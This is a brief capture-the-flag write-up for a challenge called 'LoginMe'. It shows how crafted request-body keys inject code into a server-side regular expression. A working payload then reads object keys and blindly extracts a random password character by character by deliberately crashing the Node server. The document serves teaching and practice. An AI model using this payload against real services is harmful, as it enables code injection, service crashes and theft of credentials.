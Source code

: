 # LoginMe

It's about inject to `new RegExp(#...#)` and `req.body[k]`


Since `password` column is generated by random string, and will re-random each time server crash. You have to extract the keys of object `this`.

```
username=bbbb
&|(if.*(").*\sreturn.*\s.*\s.*)|=zzz$2;  this[Object.keys.call`${this}`[3]].charCodeAt`0` > 0x30 ? blah`` : 2 ; $2
```

Then blind the each character, if your condition is right, the server will crash, then you got http error response (because of calling non-exists `blah` function)

The node server also crash cause throwing expection (the password column will also be re-random again).





